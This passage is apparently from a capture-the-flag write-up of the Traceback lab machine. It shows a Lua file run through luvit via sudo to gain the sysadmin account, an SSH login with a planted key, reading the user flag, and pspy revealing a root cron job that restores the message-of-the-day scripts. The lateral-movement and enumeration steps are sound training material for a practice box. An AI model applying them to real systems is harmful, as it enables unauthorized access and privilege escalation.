 

The filename is arbitrary, but it does need to end in `.lua`.

Running it fails on it's own, but using `sudo` to run as sysadmin works
without issue:



    webadmin@traceback:~$ /home/sysadmin/luvit /dev/shm/.0xdf.lua 
    -bash: /home/sysadmin/luvit: Permission denied

    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit /dev/shm/.0xdf.lua



### SSH

Now I can SSH as sysadmin:



    root@kali# ssh -i ~/keys/ed25519_gen sysadmin@10.10.10.181
    #################################
    -------- OWNED BY XH4H  ---------
    - I guess stuff could have been configured better ^^ -
    #################################

    Welcome to Xh4H land 



    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

    Last login: Fri Mar  6 02:31:26 2020 from 10.10.14.6
    $ 



I'll note the welcome message, "OWNED BY XH4H". It seems that attacker
changed the welcome message.

After running `bash` to get a better shell, grab user.txt:



    sysadmin@traceback:~$ cat user.txt
    c2434970************************



## Priv: sysadmin --\> root

### Enumeration

After looking around for a few minutes and not finding much, I uploaded
[pspy](https://github.com/DominicBreuker/pspy). I saw that every minute,
there looked like a Cron restoring `/etc/update-motd.d/`:



    2020/03/15 09:38:01 CMD: UID=0    PID=1445   | sleep 30 
    2020/03/15 09:38:01 CMD: UID=0    PID=1444   | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
    2020/03/15 09:38:01 CMD: UID=0    PID=1443   | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
    2020/03/15 09:38:01 CMD: UID=0    PID=1442   | /usr/sbin/CRON -f 
    2020/03/15 09:38:01 CMD: UID=0    PID=1441   | /usr/sbin/CRON -f 
    2020/03/15 09:38:31 CMD: UID=0    PID=1447   | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/ 

